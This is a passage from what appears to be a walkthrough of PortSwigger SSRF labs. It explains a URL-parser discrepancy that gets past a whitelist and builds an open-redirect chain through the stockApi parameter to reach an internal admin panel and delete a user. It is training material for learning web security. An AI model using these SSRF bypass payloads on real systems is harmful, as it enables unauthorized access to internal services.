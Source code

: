 


**how waf parse it:**

1. **username:** localhost%23

2. **white listed approved url:** stock.weliketoshop.net/admin/delete?username=carlos



**how server parse it:**

1. **url:** localhost

2. **url fragment(ignored):** #@stock.weliketoshop.net

3. **url subdirectories:** /admin/delete?username=carlos  (according to RFC 3986 path section starts with the **/**  char)


**suggested materials:**

A New Era of SSRF - Exploiting URL Parser in Trending Programming Languages! 

Orange Tsai's talk at: https://www.youtube.com/watch?v=voTHFdL9S2k


#


# **5. SSRF with filter bypass via open redirection vulnerability**
https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection


To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos. 

**construct the payload:**

1. click on stock to get baseline messege:
**stockApi=/product/stock/check?productId=1&storeId=1** (after urldecoded) 

this will be the injection point: **stockApi=**


2. click on Next product to get the redirection syntax:

**GET /product/nextProduct?currentProductId=1&path=/product?productId=2 HTTP/1.1**

 now we have redirecting syntax **/product/nextProduct?currentProductId=1&path=** (no need for the **/product?productId=** we will replace them with our path)

3. Admin Adress from Lab description


**craft the payload:**

use injection point {1} with the redirection syntax {2} and the admin panel address {3} from lab description:

**{stockApi=}{/product/nextProduct?currentProductId=1%26path=}{http[:]192.168.0.12:8080/admin/delete?username=carlos}**
